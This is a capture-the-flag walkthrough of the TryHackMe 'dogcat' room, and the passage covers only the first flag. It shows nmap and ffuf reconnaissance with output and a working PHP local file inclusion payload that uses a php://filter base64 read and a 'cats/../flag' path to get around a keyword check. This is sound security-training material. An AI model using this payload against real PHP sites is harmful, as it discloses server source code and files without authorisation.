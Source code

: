 # dogcat
I made a website where you can look at pictures of dogs and/or cats! Exploit a PHP application via LFI and break out of a docker container.

---

I made this website for viewing cat and dog images with PHP. If you're feeling down, come look at some dogs/cats!\
This machine may take a few minutes to fully start up.

[Link](https://tryhackme.com/room/dogcat) to the room

---

Let's start with a version and script scan against the target machine
```
$ sudo nmap -sV -sC <machine_ip> -Pn -n --disable-arp-ping

<...snip...>
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 24:31:19:2a:b1:97:1a:04:4e:2c:36:ac:84:0a:75:87 (RSA)
|   256 21:3d:46:18:93:aa:f9:e7:c9:b5:4c:0f:16:0b:71:e1 (ECDSA)
|_  256 c1:fb:7d:73:2b:57:4a:8b:dc:d7:6f:49:bb:3b:d0:20 (ED25519)
80/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: dogcat
|_http-server-header: Apache/2.4.38 (Debian)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/009bc8a6-b486-4d12-9bd3-484bdc1a8172)

The web app is about images of cats and dogs, no surprise. Let's fuzz for hidden content.
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/FUZZ"

<...snip...>
cats                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
dogs                    [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 99ms]
```

We assume that these folders contain the content of the web app (images of cats and dogs).
But we don't have permissions to access them.

Let's try making use of the first flag's hint: *There's more to *view* than just cats and dogs...*.\
Notice that view is the name of the query argument when calling the api for a random cat/dog image.
We can try and fuzz to discover more values that are accepted by that argument:
```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://<machine_ip>/?view=FUZZ" -fs 455

<...snip...>
category                [Status: 200, Size: 759, Words: 106, Lines: 24, Duration: 39ms]
<...snip...>
```

The command returns many entries. Note that `-fs 455` is used to exclude entries that return the standard response of "Sorry, only dogs or cats are allowed".

Navigating to `http://<machine_ip>/?view=catalog`, we get the following:
![image](https://github.com/elomarii/CTF_4_DAY/assets/106914699/70e44b57-bf4b-45cd-a15e-889d8d9d2e49)

Allright, now we know that the value of `view` is attached to ".php" extension and then passed to the `include` function.\
Since this is the case, we can use a php filter to disclose the source code of php files in the server. But first, lets see what php files do we have there:
```
$ ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-medium-words-lowercase.txt:FUZZ -u "http://<machine_ip>/FUZZ" -e .php

<...snip...>
flag.php                [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 43ms]
<...snip...>
```

Interestingly, we found a flag file. Now we can use the read filter to get its content encoded in base64.\
When testing the payload, I was getting the "Sorry, only dogs or cats are allowed" error, so I tried many assumptions on how the app is verifying this conditions.
One of them, which later succeeded, is that the app checks if the value of the path contains "cat" or "dog".\
Hence, to get the flag, we pass the value `http://<machine_ip>/?view=php://filter/read=convert.base64-encode/resource=cats/../flag`. We used "cats" because this is an existing folder on the server, and from which we know the relative location of "flag.php".

We decode the base64 string and get our first flag.


